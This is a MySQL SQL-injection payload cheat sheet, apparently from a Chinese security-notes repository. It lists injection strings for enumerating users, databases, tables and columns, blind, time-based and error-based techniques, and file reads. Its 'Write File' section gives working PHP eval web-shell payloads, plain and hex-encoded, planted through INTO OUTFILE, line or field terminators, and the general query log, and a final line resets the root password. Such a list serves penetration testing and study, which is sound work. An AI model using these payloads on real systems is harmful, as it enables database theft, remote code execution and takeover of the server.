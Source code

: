 MySQL Payload
=====================================
- Version 
    + ``SELECT @@version``
- Comment 
    + ``SELECT 1 -- comment``
    + ``SELECT 1 # comment``
    + ``SELECT /*comment*/1``
- Current User
    + ``SELECT user()``
    + ``SELECT system_user()``
- List User
    + ``SELECT user FROM mysql.user``
- Current Database
    + ``SELECT database()``
- List Database
    + ``SELECT schema_name FROM information_schema.schemata``
- List Tables
	+ ``SELECT table_schema,table_name FROM information_schema.tables WHERE table_schema != 'mysql' AND table_schema != 'information_schema'``
	+ ``1" union select 1,2,3,group_concat(table_name) from information_schema.tables where table_schema=database()#``
- List Columns
	+ ``SELECT table_schema, table_name, column_name FROM information_schema.columns WHERE table_schema != 'mysql' AND table_schema != 'information_schema'``
	+ ``1" union select 1,2,3,group_concat(column_name) from information_schema.columns where table_name='user'#``
- If
    + ``SELECT if(1=1,'foo','bar');`` =>return ``'foo'``
- Ascii
	+ ``SELECT char(0x41)``
	+ ``SELECT ascii('A')``
	+ ``SELECT 0x414243`` => return ``ABC``
- Delay
    + ``sleep(1)``
    + ``SELECT BENCHMARK(1000000,MD5('A'))``
- Read File
    + ``select @@datadir``
    + ``select load_file('databasename/tablename.MYD')``
- Blind
    + ``ascii(substring(str,pos,length)) & 32 = 1``
- Error Based
    + ``select count(*),(floor(rand(0)*2))x from information_schema.tables group by x;``
- Write File
	+ 利用union select写入
		::
		
			?id=1 union select 1,"<?php @eval($_POST['g']);?>",3 into outfile 'E:/study/WWW/evil.php'
			?id=1 union select 1,0x223c3f70687020406576616c28245f504f53545b2767275d293b3f3e22,3 into outfile "E:/study/WWW/evil.php"
			union select 1,1,1 into dumpfile '/tmp/demo.txt'
			dumpfile和outfile不同在于，outfile会在行末端写入新行，会转义换行符，如果写入二进制文件，很可能被这种特性破坏
	+ 利用分隔符写入
		::
		
			当Mysql注入点为盲注或报错，Union select写入的方式显然是利用不了的，那么可以通过分隔符写入。SQLMAP的 --os-shell命令，所采用的就是这种方式。
			?id=1 LIMIT 0,1 INTO OUTFILE 'E:/study/WWW/evil.php' lines terminated by 0x20273c3f70687020406576616c28245f504f53545b2767275d293b3f3e27 --
			支持四种形式：
			?id=1 INTO OUTFILE '物理路径' lines terminated by  （一句话hex编码）#
			?id=1 INTO OUTFILE '物理路径' fields terminated by （一句话hex编码）#
			?id=1 INTO OUTFILE '物理路径' columns terminated by （一句话hex编码）#
			?id=1 INTO OUTFILE '物理路径' lines starting by    （一句话hex编码）#
	+ 利用log写入
		::
		
			具体权限要求：数据库用户需具备Super和File服务器权限、获取物理路径。
			show variables like '%general%';                          #查看配置
			set global general_log = on;                              #开启general log模式
			set global general_log_file = 'E:/study/WWW/evil.php';    #设置日志目录为shell地址
			select '<?php eval($_GET[g]);?>'                          #写入shell
			set global general_log=off;                               #关闭general log模式
- Change Password
	+ ``mysql -uroot -e "use mysql;UPDATE user SET password=PASSWORD('newpassword') WHERE user='root';FLUSH PRIVILEGES;"``
